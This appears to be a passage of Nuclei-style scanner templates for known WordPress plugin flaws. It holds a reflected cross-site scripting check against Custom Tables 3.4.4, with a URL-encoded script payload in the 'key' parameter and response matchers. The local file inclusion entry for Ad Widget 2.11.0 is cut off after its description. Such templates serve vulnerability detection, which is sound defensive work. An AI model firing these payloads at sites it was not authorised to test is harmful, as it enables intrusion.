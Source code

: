 **Type - status**

- status
  1. 200

---

# WordPress Custom Tables 3.4.4 - Cross-Site Scripting

## Description

- WordPress Custom Tables 3.4.4 plugin contains a cross-site scripting vulnerability via the key parameter.
- severity - high
- tags - wpscan,wordpress,xss,wp-plugin

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/custom-tables/iframe.php?s=1&key=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Ad Widget 2.11.0 - Local File Inclusion

## Description

- WordPress Ad Widget 2.11.0 is vulnerable to local file inclusion. Exploiting this issue may allow an attacker to obtain sensitive information that could aid in further attacks.
